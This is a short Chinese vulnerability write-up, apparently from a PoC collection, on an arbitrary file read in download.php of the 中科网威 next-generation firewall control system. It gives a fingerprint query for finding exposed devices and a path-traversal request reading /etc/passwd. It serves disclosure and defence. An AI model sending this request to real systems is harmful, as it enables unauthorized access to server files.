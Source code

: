# 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210531184103009.png)



漏洞存在于 download.php

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210602161941678.png)



任意点击后抓包，更改 `toolname` 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210602162110747.png)



## 

